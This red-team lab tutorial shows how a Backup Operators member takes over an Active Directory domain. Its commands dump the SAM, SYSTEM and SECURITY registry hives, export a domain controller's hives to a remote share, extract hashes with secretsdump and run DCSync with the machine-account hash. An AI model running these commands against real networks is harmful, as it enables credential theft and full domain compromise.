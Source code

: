 ```yaml
---
title: "Domain Privilege Escalation Backup Operators Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


# Windows Built-in Groups 

Windows Built-in Groups are predefined groups that come preconfigured with Windows operating systems. These groups serve specific purposes and are used for managing permissions, access, and security within the Windows environment. Some common built-in groups include:

1. Administrators: Members of this group have full control over the computer. They can perform administrative tasks, install software, modify system settings, and manage other users and groups.
2. Users: Regular users who have limited privileges on the system. They can use most software and change system settings that do not affect other users or the security of the computer.
3. Guests: Limited access accounts for users who require temporary or occasional access to the system. Guest accounts typically have very restricted permissions.
4. Backup Operators: As mentioned earlier, members of this group can perform backup and restore operations on the system, including backing up and restoring files and directories.
5. Power Users: A legacy group in older versions of Windows, members of this group had more privileges than regular users but fewer than administrators. This group is deprecated in newer versions of Windows.
6. Remote Desktop Users: Members of this group are allowed to log in to the system remotely using Remote Desktop Protocol (RDP).
7. Network Configuration Operators: Members of this group have permissions to perform network configuration tasks on the computer, such as modifying network settings and installing network drivers.
These built-in groups provide a convenient way to manage access and permissions on Windows systems, allowing administrators to assign appropriate rights to users and groups based on their roles and responsibilities.
## Backup Operators
The Backup Operators group is a built-in group in Microsoft Windows operating systems. This group is designed to grant users limited privileges to perform backup and restore operations on the system, including the ability to back up and restore files and directories, regardless of their permissions. Members of the Backup Operators group can perform tasks such as backing up the entire system, backing up files and directories, and restoring files and directories. This group is useful in environments where individuals need to perform backup and restore tasks without having full administrative privileges on the system.

### Lab Configuration 
#### Setting Up Privilege on Domain Controller


[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**

We are going to add a user Serena.Alla to the active directory security group for the demonstration. To do that, go to **“users**” select “**Serena.Alla**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-2.png)](https://r00tven0m.github.io/)

That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-3.png)](https://r00tven0m.github.io/)
A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **Backup Operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-4.png)](https://r00tven0m.github.io/)

We can verify whether a user is added to the backups operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user Serena.Alla to backups operators’ group.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-5.png)](https://r00tven0m.github.io/)



## Enumeration With PowerView.ps1

#### Enumerating AD Users

```powershell
Get-DomainUser -Identity Serena.Alla -Domain cbank.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,acco
```
[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-6.png)](https://r00tven0m.github.io/)
#### Enumerating AD Groups

```powershell
Get-DomainGroupMember -Identity 'Backup Operators'
OR 
Get-DomainGroupMember -Identity 'Backup Operators' | select GroupName,MemberName,MemberDomain,GroupDistinguishedName
```


[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-7.png)](https://r00tven0m.github.io/)
#### Backing up SAM and SYSTEM,security Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```powershell
reg save hklm\sam c:\Temp\sam.sav
reg save hklm\system C:\Users\serena.alla\Documents\system.sav
reg save hklm\security C:\Users\serena.alla\Documents\security.sav
```

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-8.png)](https://r00tven0m.github.io/)
### secretsdump.py 

```bash
impacket-secretsdump LOCAL -system system.sav -sam sam.sav
```

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-9.png)](https://r00tven0m.github.io/)
but we get hashes local users we need get all hash DC

#### Attacking a Domain Controller  with [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

The [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) is a proof of concept written in C++ which can target domain controllers using an account which is part of the Backup Operators group. The proof of concept can export the registry hives into C:\temp_ path or into a UNC share.

```powershell
net use G: \\192.168.56.1\test /u:test test
.\BackupOperatorToDA-x64.exe -t \\dc01.cbank.local -o G:\\
```
[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-11.png)](https://r00tven0m.github.io/)
#### Aonther Way Attacking a Domain Controller  with  [reg.py](https://github.com/horizon3ai/backup_dc_registry/blob/main/reg.py "reg.py")


```bash
python3 reg.py Serena.Alla:'Password123'@192.168.56.100 backup -p '\\192.168.56.1\test'
```

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-12.png)](https://r00tven0m.github.io/)
```bash
impacket-secretsdump LOCAL -system SYSTEM -sam SAM -security SECURITY
```

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-13.png)](https://r00tven0m.github.io/)
Nice We Can get hash MACHINE ACCOUNT `DC01$` 
Now the NTLM hash for the Domain Controller has been extracted.
Now we will provide the NT hash to the secretsdump tool along with the name of the Domain Controller to extract all users present in the Active Directory environment with their respective hashes via a file. The machine account credentials could then be used to DCSync domain credentials.

```bash
impacket-secretsdump cbank.local/'dc01$'@dc01.cbank.local -hashes :c8d2d1f95b533d6326baf3cccdb81d10
```

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Backup-Operators/2024-02-13-14.png)](https://r00tven0m.github.io/)

# In Conclusion

Backup Operators is a privileged group, and should be monitored and protected in a similar manner to Enterprise/Domain administrator groups.

`We have reached the end of the article.`
